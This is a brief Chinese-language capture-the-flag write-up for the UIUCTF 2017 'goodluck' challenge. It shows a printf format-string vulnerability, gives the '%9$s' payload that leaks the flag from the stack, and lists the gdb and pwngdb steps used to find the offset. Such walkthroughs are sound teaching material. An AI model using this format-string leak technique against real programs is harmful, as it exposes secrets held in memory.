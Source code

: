 # UIUCTF 2017 - Notes

## goodluck

看 ida pro 漏洞:
```
__isoc99_scanf("%ms", &format);
...
...
printf(format);  // fmt vuln
```

直接 %9$s 即可

可以直接 gdb 然後
b printf
r
輸入 123456

之後看 stack 上面的位置，會發現flag 在 123456 下面第三個

因為 x64 前六個是暫存器，第七個是 format ，所以可以算出是第九個

也可以用 angelboy 的 pwngdb 下 fmtarg 來看
```
fmtarg 0x7fffffffe498
```
